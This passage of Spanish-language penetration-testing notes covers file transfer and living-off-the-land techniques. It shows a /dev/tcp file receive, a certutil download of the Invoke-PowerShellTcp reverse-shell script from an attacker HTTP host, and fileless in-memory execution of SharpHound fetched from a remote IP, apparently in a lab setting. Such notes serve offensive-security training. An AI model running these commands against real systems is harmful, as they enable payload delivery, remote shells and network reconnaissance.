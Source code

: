 ### Recibir archivo
```bash
cat < /dev/tcp/<ip_servidor>/4444 > archivo_recibido
```

---
## Living off the land
Este concepto es acuñado a los archivos que puede utilizar un atacante para realizar acciones que van más allá de su propósito general.
Actualmente hay dos sitios web que recopilan información sobre los archivos binarios Living off the Land:
- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins](https://gtfobins.github.io/)
### Ejemplo de descarga de archivo en Windows con certutil
```powershell
certutil.exe -urlcache -split -f http://10.10.14.104:8000/Invoke-PowerShellTcp.ps1 C:\Windows\Temp\Invoke-PowerShellTcp.ps1  
# Considerar Invoke-ConPtyShell.ps1 en su lugar, ya que nos da una tty interactiva
```
---
## Ejemplo de descarga y ejecución 
### Fileless - ejemplo sharphound
- El siguiente comando descarga el archivo **`SharpHound.exe`** y lo ejecuta en memoria sin escribirlo en el disco, utilizando el ensamblado .NET cargado dinámicamente.
	```powershell
		$SharpHoundBytes = (Invoke-WebRequest -Uri http://10.10.14.116:8000/SharpHound.exe -UseBasicParsing).Content 
		$Assembly = [System.Reflection.Assembly]::Load($SharpHoundBytes) [SharpHound.Program]::Main(@('-c', 'All', '--zipfilename', 'ILFREIGHT'))
	```
	Esto es equivalente a tener sharphound.exe descargado y ejecutar lo siguiente: 
	```powershell
	.\SharpHound.exe -c All --zipfilename ILFREIGHT
	```

